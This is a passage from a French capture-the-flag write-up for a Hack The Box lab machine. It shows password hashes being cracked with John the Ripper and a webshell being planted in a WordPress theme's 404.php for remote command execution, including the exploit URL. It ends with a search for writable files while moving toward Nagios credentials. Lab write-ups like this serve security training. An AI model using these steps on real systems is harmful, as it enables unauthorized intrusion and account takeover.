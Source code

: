 ```python
>>> from base64 import b64decode
>>> from binascii import hexlify
>>> hexlify(b64decode("CR5yxS528yxH6d4rAwgvtKyuAvM="))
b'091e72c52e76f32c47e9de2b03082fb4acae02f3'
>>> hexlify(b64decode("L21ZSH6P9HEpeFEW312EItg4fkY="))
b'2f6d59487e8ff47129785116df5d8422d8387e46'
```

Et pour le *Wordpress* il faut bien sûr extraire le hash `phpass` de la base.

```bash
$ john --wordlist=wordlist.txt hashes.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:11 38.35% (ETA: 14:03:45) 0g/s 11262p/s 11262c/s 11262C/s hayears..hcfamilies
Power9           (admin)     
1g 0:00:00:20 DONE (14:03) 0.04844g/s 11209p/s 11209c/s 11209C/s power87..power955
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Comptez 15 minutes pour casser le `phpass` tout de même !

Via le `Nagios` il semble qu'il n'y ait rien que l'on puisse faire directement pour obtenir une exécution de commande, on va donc utiliser le compte Wordpress et aller comme d'habitude éditer un script PHP via le `Theme Editor`.

Le thème `twentynineteen` est modifiable, on peut ajouter un webshell dans le `404.php` et obtenir notre RCE de cette façon :

`http://www.midwest.htb/wp-content/themes/twentynineteen/404.php?cmd=id`

Sur le système je peux lister les fichiers sur lesquels j'ai un accès en écriture et ils sont nombreux :

```bash
find / -type f -writable 2> /dev/null | grep -v /var/www | grep -v /proc
```

Grosso modo ça correspond aux fichiers dans les dossiers suivants :

```
/usr/local/nagios/
/usr/local/nagiosxi/
/var/lib/snmp/mibs/
/usr/local/nagvis/
```

## Usine à gaz

On a donc pas mal de contrôle sur le `Nagios`. Je ne connais ce software que de nom alors j'ai d'abord cherché ses fichiers de configurations. Par exemple dans le premier dossier il y a le fichier `/usr/local/nagios/etc/ndo.cfg` qui contient les identfiants suivants :
